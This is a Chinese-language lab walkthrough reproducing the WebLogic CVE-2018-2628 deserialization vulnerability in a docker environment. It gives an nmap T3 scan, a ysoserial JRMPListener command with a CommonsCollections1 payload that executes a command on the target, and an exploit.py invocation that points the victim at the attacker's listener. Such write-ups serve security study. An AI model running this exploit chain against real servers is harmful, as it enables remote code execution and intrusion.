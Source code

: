 ## 环境搭建

```
cd weblogic/CVE-2018-2628
docker-compose up -d
```



## 漏洞复现

首先我们用nmap检查一下漏洞所需端口情况

这里我们针对7001，和7002两个默认的控制端口进行扫描，扫描的时候加上weblogic-t3-info脚本，如果目标服务器开启了T3协议就会在扫描结果中显示。

```
nmap -n -v -p7001,7002 192.168.16.128 --script=weblogic-t3-info
```

![image-20210413163946799](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413163946799.png)

我们启动一个JRMP Server，可以利用 [ysoserial](https://github.com/brianwrf/ysoserial/releases/tag/0.0.6-pri-beta)

下载后我们在本地启动它

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

- [listen port]：本地监听的端口，待会要用到
- [command]：需要执行的命令，这里我们准备在目标的/tmp目录下创建一个shell文件

最后构建的命令

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 4444 CommonsCollections1 "touch /tmp/shell"
```



然后，我们再使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python2 exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

- `[victim ip]`和`[victim port]`是目标weblogic的IP和端口
- `[path to ysoserial]`是本地ysoserial的路径
- `[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口
- `[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`

最后我们的命令构建

```
python2 .\exploit.py 192.168.16.128 7001 .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.16.1 4444 JRMPClient
```
